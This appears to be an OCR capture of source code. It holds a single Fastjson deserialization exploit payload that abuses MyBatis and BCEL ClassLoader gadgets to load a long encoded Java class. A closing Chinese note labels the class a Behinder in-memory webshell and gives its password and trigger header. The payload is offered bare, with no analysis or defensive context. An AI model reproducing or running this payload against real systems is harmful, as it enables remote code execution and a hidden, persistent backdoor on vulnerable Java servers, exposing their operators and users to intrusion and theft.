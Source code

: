     {"x":{"xxx":{"@type":"java.lang.Class","val":"org.apache.ibatis.datasource.unpooled.UnpooledDataSource"},"c":{"@type":"org.apache.ibatis.datasource.unpooled.UnpooledDataSource"},"www":{"@type":"java.lang.Class","val":"com.sun.org.apache.bcel.internal.util.ClassLoader"},{"@type":"com.alibaba.fastjson.JSONObject","c":{"@type":"org.apache.ibatis.datasource.unpooled.UnpooledDataSource"},"c":{"@type":"org.apache.ibatis.datasource.unpooled.UnpooledDataSource","driverClassLoader":{"@type":"com.sun.org.apache.bcel.internal.util.ClassLoader"},"driver":"$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$95Wkt$Ug$Z$7e$be$cdnf$b2$99$q$bb$9bl$92$J$b4$dc$n$XH$c8$C$B6$UHR$I$91$q$5cB$89$80Z$t$9b$nY$d8$ec$84$d9Y$q$f5B$b5$f5$daj$adw$b0$X$c5K$b4Z$95Z$X$da$K$e2$NmU$b0$8a$b7s$ec$P$fd$e3$P$cf$f1g$8f$f5R$7c$be$d9$d9$9a$rAj$ce$9cy$bf$ef$7d$9f$ef$bd$7d$ef$fb$ee$e4$85W$9f$bd$I$60$z$fe$Q$c4Bd$838$8e$b7$c9$d7$89$m$a6p$8f$8a$b7K$fa$O$F$efT$f1$$$V$tU$dc$ab$e2$ddA$dc$8e$f7$Eq$l$eeW$f1$5e$89$7e$9f$dc$bc_$c1a$b9$f9$80$8a$P$G$d1$82$PI$8d$PH$y9$PJ$fa$e1$m$3e$o7$PI$f1GU$3c$ac$e2c$K$3e$$E$9fP$f0$c9$m$3e$85O$ab$f8$8c$82S$wN$ab$f8$ac$82G$82X$8eG$e5$eb1$f9z$5c$c5$e7$U$7c$5e$c5$Z$V_$u$c3$X$f1$a5$m__V1$ad$e0$x$w$be$aa$e2$J$V_S$f0u$FO$K$94nJ$a6$93$cef$81$92$c6$a6$fd$C$fe$kk$d4$U$a8$eaO$a6$cd$c1$ec$c4$88i$ef3FR$e4D$fa$ad$84$91$dao$d8I$b9$f7$98$7eg$3c$99$R$u$eb$lI$a4$cc$b6$3dS$9d$C$ea$a6D$ca$d3$Y8n$d8$ebc$C$8b$fb$8f$Y$c7$8d$b6$94$91$kk$ebI$Z$99$cc$a0$e5l$b7$b2$e9$d1m$t$S$e6$a4$93$b4$d2$9dyp$acC$40$9f$B$b6$cd$c3$v3$e1$b4mO$9a$a9Q$P$b3$be$5d$60$d1$M$cc$a05$94M$8c$P$98$ce$b85K$df$9av$8f$c6$a4$ff$ff$3d$b3k$e4$I$d5$W$40kHms$d2J$7b$fb$d5$c5$e0$n$c7N$a6$c7$K$kn$f4$e8$G$B$d1$e7$ad$3d$x$b1$98G$d7xt$adG$d7y$9e$f3L4$af8$eb$qSm$5d$b6mL$f5$t3$FGb$eb$3d$ba$3aO$db7$W$3b$b2o$dc6$8dB$g$da$a9$ccO$ea$RB$ebn$ccr$bfe$8c$9av$BO$a5$e1$h$R$F$99$X$40$bb$X$40$bb$X$40$bb$X$40$bb$X$40$3b$af$a7$fa$d0M$3d$a2$fb$e2$a0$40$c5$90c$q$8e$O$Y$93n$8d$u$f8$86$82o$b25X$c2$K$be$c5$Cf$e1$b2dY$7e$C$c1$n$xk$t$cc$edIYK$ca$9e$a9V$a9Z$c3zl$e01$Ng$f1$94$86o$e3i$w$d0$f0$j$3c$zp$9be$8f$b5$g$93Fb$dclMXS$96c$b6$ee5$8fe$cd$8c$d3$97$3eli$c8$e1$9c$c0$c2$5bU$9b$40HBZ$r$a45$l$Do$e6FV$afme$tY$bc75$e9$C$a4$5d$fa$ee$b8G2$g$ce$e3$Z$86$a9$e1Y$3c$c7$der$M$7b$cct4$7c$X$X4$5c$c4$f74$5c$c2$f7yc$e3$8e3$a9$e1$H$f8$a1$86$l$e1$c7l$a0m$e9$d1I$x$99v$96j$b8$8c$9f$u$f8$a9$40$c3$M$c3$8e5$910$9cVY6$adi$a9$f0y$bc$m$d5$b3$fb$96$f2b$834$b2$c3H$8f$a6L$9b$ad$7bC$f8$g$7e$86$9f$7b$n$cf$y$7f$F$bf$d0p$FWi$9d$c7$7bS$d6$88$91$SXp$8b$ce$a2$d51$P$g$9c$b4$ad$84$99$c9X6G$40$f5$iu$ad$e1$97xQ$c3$af$f0k$Z$fc5$82hh$d8$b2$8fr$a8$b8$f9$g4$s$cc$o$cf$f2$bd$c6Yd$9b$c7$98U$c2yy$ac$a1$dfh$f8$z$ee$d6$f0$3b$fc$5e$a0$9c$ec$bdf$86$N$9b$91s$e9$d0$iU$5df$8c$8e$ee0e$f9$d3_$db$ccdS$O$d5e$b2$J$e9o$c1Y$f7$c4$8c$c0$Uo$88$VyTT$k$b3$9a$8b$5dw$93i$c5$3eHdm$dbL$3b$F$N5$8dMs$b5N$94$d1$f4Xi$c7$3c$e1$U$v$d6$8b$e0$c5$N$z$_l$b7$n$95s$9d$o$d7$V$L$yk$9c$3d$b7fi$e1$f9$Q$cf$dfi$sRT1$eay$bb$ea$WGo$i$c5$V$Z$d3$e9r$d3$99$cc$ff$S4$k$94$3f$l$95$d4$5c$d4$3e$fa$iQ$bb$o$ea$u$nX$60y$e3$ec$c9$dc4$d7$b0v$cb$c1$ad$98$e2T$be6$a0$d5$E$f3h$q$d3$cc$c4$bc$99J$7b$c6$N$7bH$f6l$3aav6qD$a92$e7$f9$94U$cfNsg$be$a1vs$8a$Zc$b4$W$z$82xl$82$c2$b3$98$y6$9a1R$Zyh$8e$a8$O$e6$af$$$dfR$C$5b$e7$c8$f9$ecj$9e$eb$W$f2$g$e8C$fd$cddt$r$99$3en$j$a5O$h$e7p$e5$d0$eb$ccy$m$91$b2$d2$b32$fe$9a$d8$9fI$dec$ba$9f$O$7d2$e4$be9A3$f2$d4$c7$3a$l$93$d5$ed$dfw$60$f76$5e$e9q$p$955w$j$W$a8$z$3e$ec$B$3b$b1$I$j$fc$40$92$7f$3e$I$f9$cb$c0$f7F$ee$daH$Fi$a0$f9$i$c4YW$i$e7$bb$d4e$w$e8$e4$5b$cb$D$b0$Jw$90$aa$d8$5c8$i$98$qn$k$8f$f4$9c$87ogs$O$r9$f8$fb$5b$o$81$iJ$87$a7Q6$mY$dc$ab$dc$P$b4D$caH$G$f3$d2$b8$bf$r$S$944$b0$wR$9e$83$W$_$d5K$fd9T$ac$8cT$ca$9d$a2$xr$a7$97RAU$O$a1K$I$e7$9f$b8Z$d2QV$d2$R$8c$Gu$f5$e2$Z$f1$bc$aeF$83$b1x$b9$5e$7eY$9c$d3$a9$u$S$a9$ce$a1$e6$94xBW$e46$U$d7t$ed$b2xD$d7r$88$e6P$h$a9s$a5$Pz$fb$fa$i$f4HC$O$f3N$89$v$97$V$99$_$adW$e8$V$ae$f5$K$c9$L$c5$x$f5J$v$ba$ad$e4$Cn$cfa$81$5e$c9$c5$c2$i$W$c5$abD$3c$a4WI$d9$e2$82$ac$aa$m$LMca$3c$9c$97$$$95J$pz$c4U$g$91$bc$Q$P$G$o$cb$q$3f$ac$87$5d$7eX$P$b9$81$$$97$c8$iV$c8UuIGM$b4FgH$8dgpU$af$8e$d6$e4$d0$U$8f$ea$d1$cbxN$f7G$9a$LV$a3$9e$d5Kh$89$d7$ea$b5$97$f1$a8$5e$cb$ha$3adlx$88$d8$95$d2V$9d$5e$e7$da$aa$d3$a3$d2$87z$bd$5e$ba$b7$caO5$HJ$9eB$eb$90TV$cf$ed$c2$D$r$fe$f3h$h$92$91$e8$ba$$Q$ab$a5$b1Kh$97$Q$bd$Qe$83$de$me$b1$80$ab$n$d22t$c0$cf$97$844$E$5c$z$915$92$b5V$w$g$f6w$94$b1$s$ee$af$R$d3$d7WE$cbN$a1T$ee$82b$fa$d5u$d3$f0$ef$3c$8b$S$WZ5jYt$af$88$88$88b$J$Lk$b3$af$L$eb$u$91$r$f9g$96$j$Q$84$l$e5DV$S$h$s$ba$Ku$Ia$3ewKP$83fD$R$p7Nn7$ea$b1$D$3av$a3$B$fbY$a6G$88$9a$e0$c7$ff$J$y$c0I$f6$c2$c3$ec$89$d3X$cc$af$87$r$fc$f9$5e$8akX$86$97$f8$d9$ff2V$e0$V4$8b$I$da$e8E$8b$a8$c3J$b1$E$abD$TZE$M$ed$a2$T1$d1$855b$Ak$c50$3a$c4$u$d6$8b$Jl$Q66$8a$H$Q$X$8f$a1SLc$93x$Sw$88$i6$8b$3fb$8b$f8$3b$b6$fa$96$a2$cb$b7$C$dd$beft$f8Vc$bbo$jz$7d$hp$bbo3$G$Ye$bf$af$h$bbd$bb$89V$faX$c7v$db$82$ad$f0$d1r$V$ba$YK$84$7e$ccC$P$eeD$98$da$ef$c36$f2$ea$a8$df$c1v$f4$a2$9eV$G$Zm$_t$da$8a$a1$8f$ab$Gz$f38$de$80$9d$a8$a5$7f$X$d0O$5eT$i$e4$H$c0$A$b15$b8$o$8e$d0b7$w$f0$928$c4$y$f52$a7$_$8bn$ec$e1$aa$8aw$b0$F$7b$b9$K1$de$7fc$88$b80$p$fe$x$f6$e1$$$fa2$8c$3f1$a7w1$eb$a7$Z$ef0q$gN$8ag$f0F$i$e0$edL$8a$x8H$h$bc$x_$i$87$c8$e3$Q$f1$c5$f0$s$bc$99$83c$89o$k$de$82$bb9h$9a$7d5x$xW$r$88$f94$Y$5c$f9$R$f7$f91$c2U$A$dd$e2_H$d0n$vv$8b$bfa$94$x$FG$c45$988$cc$n4$n$5e$c4$Y$c6Q$86$q$b5$ff$F$dau$5e$bb$8f$I$FG$n$U$a4$C$d7$e9uy$9e$a1$60b$c6$93v$9f$b0$e0T$bb$ce$7f$e8$c2$ff$T$e3$K$zwg$e5$l$a9$7dr$feuVI$f4$ff$3c$e9$ae$8f$f1$a1$e5$7f$e2$ea$3f$40$l$95$d7$e1c$40$8e$edn$F6$ab$D$ZwF$3b$ff$B$h9$cc$c1K$P$A$A"}}:{}}}  
    冰蝎内存马:密码：pass123Header: Accept-Agent: css

